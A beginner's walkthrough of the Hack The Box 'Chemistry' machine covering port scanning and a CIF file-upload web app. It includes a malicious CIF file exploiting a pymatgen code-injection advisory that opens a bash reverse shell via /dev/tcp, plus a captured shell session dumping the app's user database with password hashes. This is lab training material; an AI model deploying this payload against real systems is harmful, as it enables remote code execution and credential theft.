




# Chemistry: Easy Machine Walkthrough for Beginners

URL: https://app.hackthebox.com/machines/Chemistry

## Machine Overview

## Tools

- Nmap 


### Enumeration

In the first step, I recommend running Nmap to identify open ports on the provided HTB IP address. This initial scan will reveal accesible ports, giving us a clearer picture of the services that might be running on the target machine. By examining these services, we can assess potential entry points and gain isight into the target's configuration and vulnerabilities.

### NMAP Result

```
sudo nmap -sS -sC  10.10.11.38

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 16:38 CST
Nmap scan report for 10.10.11.38
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 10.29 seconds
```

As observed, the port scan reveals two open ports: 22 and 5000. The first port, 22, is typically used for SSH services. However, without valid credentials, we currently lack access to this service.

The second port, 5000, is less immediately identifiable. To investigate further, we can attempt to access it via a web browser at http://10.10.11.38:5000/. This may reveal a web-based service or application running on the target, which could offer additional information or potential entry points for exploitation.

### Web Service Discovery


Upon accessing port 5000, we discovered a web application titled "Chemistry CIF Analyzer." The landing page displays the message:

- "Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within."

In addition to this functionality, the page also features two buttons for Login and Register. This suggests that user authentication may be a part of the application’s process.

This message provides valuable insight into the functionality of the application, indicating that it enables users to upload and analyze CIF files. Understanding this feature will be crucial in navigating the challenges associated with this machine. Given the nature of file uploads and user authentication, it may also present opportunities for exploitation, which we will explore further.


When clicking the Login button, we are presented with a login form. However, before attempting an SQL injection attack, it’s worth noting the message displayed above the form: "Don't have an account? Register here."

This prompts us to consider registering for an account first, as it may provide additional access or information that could be beneficial for our exploration of the application.


After clicking "Register here," we are presented with a form requiring a username and password for account creation. To proceed, we will enter the following test credentials:

    Username: test
    Password: test

Once the information is filled out, we will submit the form to create the account and then attempt to log in with the same credentials.







https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

```
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/{IP}/{PORT} 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```


```
h4wker㉿alien nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.38] 50294
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
app@chemistry:~$ export TERM=xterm
export TERM=xterm
app@chemistry:~$ 
app@chemistry:~$ cd instance
cd instance
app@chemistry:~/instance$ ls -l
ls -l
total 20
-rwx------ 1 app app 20480 Nov  8 01:11 database.db
app@chemistry:~/instance$ cat database.db
cat database.db
�f�K�ytableuseruserCREATE TABLE user (
        id INTEGER NOT NULL,
        username VARCHAR(150) NOT NULL,
        password VARCHAR(150) NOT NULL,
        PRIMARY KEY (id),
        UNIQUE (username)
)';indexsqlite_autoindex_user_1user�3�5tablestructurestructureCREATE TABLE structure (
        id INTEGER NOT NULL,
        user_id INTEGER NOT NULL,
        filename VARCHAR(150) NOT NULL,
        identifier VARCHAR(100) NOT NULL,
        PRIMARY KEY (id),
        FOREIGN KEY(user_id) REFERENCES user (id),
        UNIQUE (identifier)
���[��n5#Ucomando.cif23abad75-9e75-4399-b37f-d3cfacd8d83e5#Uexample.cif9c6337c4-5b1e-458f-b08a-08a28969af49
I��V*���zM U9c6337c4-5b1e-458f-b08a-08a28969af49((U23abad75-9e75-4399-b37f-d3cfacd8d83e
Maxel9347f9724ca083b17e39555c36fd9007*62cacffbdaded457c6d92(dc20036dbd8313ed055(Mcris7bb0bb352ffb2f5245f25149889a0c76+                  Mfabian4e5d71f53fdd2eabdbabb233113b5dc0+gelacia4af70c80b6826eusebio6cad48078d0241cca9a7b322ecd073b3)        Mtaniaa4aa55e816205dc0389591c9f82f43bbMvictoriac3601ad2286a4293868ec2a4bc606ba3)Mpeter6845c17d298d95aa942127bdad2ceb9b*Mcarlos9ad48828b0955513f7cf0f7f6510c8f8*Mjobert3dec299e06f7ed187bac06bd3b670ab2*Mrobert02fcf7cfc10adc37959fb21f06c6b467(Mrosa63ed86ee9f624c7b14f1d4f43dc251a5'Mapp197865e46b878d9e74a0346b6d59886a)Madmin2861debaf8d99436a10ed6f75a252abf
O��x�c���O�l����Z�
h4wketescris
            risteaxel
fabian

      elacia

            usebio
        tania
                victoriapeter
carlos
jobert
roberrosaapp    adminapp@chemistry:~/instance$
```
